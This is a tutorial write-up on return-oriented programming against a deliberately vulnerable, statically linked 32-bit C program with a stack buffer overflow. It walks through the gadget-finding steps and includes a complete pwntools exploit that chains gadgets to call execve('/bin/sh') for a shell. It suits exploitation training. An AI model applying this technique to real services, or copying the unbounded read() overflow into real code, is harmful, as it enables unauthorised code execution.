 # ROP Static

## Source Code

```C
// gcc -m32 -fno-stack-protector -no-pie -static -o vuln vuln.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

char *str = "/bin/sh";          // <- RODATA

#define BUFFSIZE 136

void vuln()
{
    char buffer[BUFFSIZE];
    read(0, buffer, 0x200);     // <- this code causes buffer overflow
}

int main()
{
    vuln();
}
```

## Overview & Main Idea

- Let's check some informations about binary file

![img](/ROP/Static/assets/check_file.png)

> NX is enabled so we can't ret2shellcode, but this program has statically linked and no PIE, we can use ROPgadget to find some gadgets in binary file and use it to implement something like exceve("/bin/sh", 0, 0) to get shell :3

## Details

### A bit about ROP

- Return Oriented Programming is a technique in which we use existing small snippets of assembly code/gadgets to create a chain of instructions which will eventually spawn a shell or cause the program to do some complex things. This is method is usually employed when there is a Stack buffer overflow and there are no win or give_shell functions. So we use ROP to invoke system or an execve syscall.

- Its called ROP as the basic idea of the technique is to use the ret statement to change control flow of the program. We use a tool called ROPgadget for finding gadgets. Another tool used for the same is ropper

- You can see this example to understand how does ROP work

![img](/ROP/Static/assets/ROP.png)

- To implement exceve("/bin/sh", 0, 0), we look up the exceve in the syscall table of x86_32 bit 

![img](/ROP/Static/assets/exceve_syscall.png)

```
exceve("/bin/sh", 0, 0) in assembly

eax     -     0x0b
ebx     -     char* "/bin/sh"
ecx     -     0x0
edx     -     0x0

int     0x80
```

- First we find the offset that we need to overwrite. By some simple steps, I find it's 148 bytes :3.

- Next, I found some gadgets below with ROPgadget.

![img](/ROP/Static/assets/gadget.png)

- Finally, we need to find "/bin/sh" string, "/bin/sh" stored in RODATA because of its initialization `char *str = "/bin/sh"`

![img](/ROP/Static/assets/bin_sh.png)

## Exploit

```python
# 0x0806003e : pop edx ; pop ebx ; pop esi ; ret
# 0x080a8b2a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
# 0x0805d393 : pop ecx ; ret
# 0x80b3008    "/bin/sh"
# 0x0804b5c2   int 0x80
# offset 148

from pwn import *

elf = ELF("./vuln")
p = elf.process()

payload = b"a"*148
payload += p32(0x0806003e)
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x2)
payload += p32(0x080a8b2a)
payload += p32(0x0b)
payload += p32(0x80b3008)
payload += p32(0x0)
payload += p32(0x0)
payload += p32(0x0805d393)
payload += p32(0x0)
payload += p32(0x0804b5c2)

p.sendline(payload)
p.interactive()
```

## Result

![img](/ROP/Static/assets/result.png)

## Reference

[syscalls](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
[ROPstatic](https://wiki.bi0s.in/pwning/rop/static/)